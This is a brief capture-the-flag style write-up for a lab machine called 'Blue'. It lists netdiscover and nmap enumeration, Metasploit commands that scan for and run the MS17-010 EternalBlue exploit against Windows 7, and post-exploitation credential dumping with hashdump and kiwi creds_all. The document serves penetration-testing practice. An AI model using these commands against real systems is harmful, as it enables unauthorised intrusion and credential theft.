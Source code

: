 # Blue

## Enumeration

```
sudo netdiscover -r 10.0.2.0/24

IP -> 10.0.2.6
```

#### NMAP

```
nmap -T4 -p- -A <IP>
```

## Metasploit way

* smb open
* windows 7 Professional 7601 Service Pack 1

This means it was a possibility to be vulnerable to eternal blue 0 smb\_ms17\_010

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS $IP
run
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* Run eternal blue explit to root the machine

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
run
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Can try to change the payload to meterpetrer with staged payload

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Manual way

[Github Page Link](https://github.com/3ndG4me/AutoBlue-MS17-010)

## Useful commands in windows

### Windows shell

* hashdump
* getuid
* sysinfo
* route print
* arp -a
* netstat -ano
* ps

### Meterpreter

* enter in shell (shell)
* kiwi
  * help
  * creds\_all



